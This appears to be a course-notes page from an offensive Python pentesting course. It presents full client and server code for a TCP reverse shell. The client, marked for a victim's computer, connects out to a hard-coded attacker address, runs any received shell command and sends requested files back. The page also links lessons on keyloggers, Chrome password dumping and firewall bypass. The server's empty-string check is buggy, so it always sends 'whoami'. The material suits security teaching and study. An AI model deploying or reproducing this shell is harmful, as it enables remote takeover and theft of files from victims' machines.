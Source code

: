 ```yaml
---
title: Including cd command into TCP reverse shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
---
```


# Including cd command into TCP reverse shell

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on victim's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket
import subprocess
import os

def transfer(s, path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet:
            s.send(packet)
            packet = f.read(1024)
        s.send('DONE'.encode())
        f.close()
    else:
        s.send('Unable to find out the file'.encode())

def connect():
    s = socket.socket()
    s.connect(('192.168.0.152', 8080))
    while True:
        command = s.recv(1024)
        if 'terminate' in command.decode():
            s.close()
            break
        elif 'grab' in command.decode():
            grab, path = command.decode().split('*')
            try:
                transfer(s, path)
            except Exception as e:
                s.send(str(e).encode())
                pass
        elif 'cd' in command.decode():
            code, directory = command.decode().split('*') # the syntax here is gonna be cd*directory
            try:
                os.chdir(directory) # changing the directory 
                s.send(('[+] CWD is ' + os.getcwd()).encode()) # we send back a string mentioning the new CWD Current working directory
            except Exception as e:
                s.send(('[-]  ' + str(e)).encode())
        else:
            CMD = subprocess.Popen(command.decode(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            s.send(CMD.stdout.read())
            s.send(CMD.stderr.read())

def main():
    connect()

main()


        
```

### Server side

To be run on attacker's computer.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import socket

def connect():

    s = socket.socket()
    s.bind(("10.0.2.15", 1234))
    s.listen(1) # define the backlog size for the Queue, I made it 1 as we are expecting a single connection from a single
    conn, addr = s.accept() # accept() function will retuen the connection object ID (conn) and will return the client(target) IP address and source port in a tuple format (IP,port)
    print ('[+] We got a connection from', addr)

    while True:

        command = input("Shell> ")

        if 'terminate' in command: # If we got terminate command, inform the client and close the connect and break the loop
            conn.send('terminate'.encode())
            conn.close()
            break
        elif '' in command: # If the user just click enter, we will send a whoami command
            conn.send('whoami'.encode()) 
            print( conn.recv(1024).decode()) 
        else:
            conn.send(command.encode()) # Otherwise we will send the command to the target
            print( conn.recv(1024).decode()) # print the result that we got back

def main():
    connect()
main()

```


## Using pyinstaller

See [pyinstaller](../pyinstaller.md).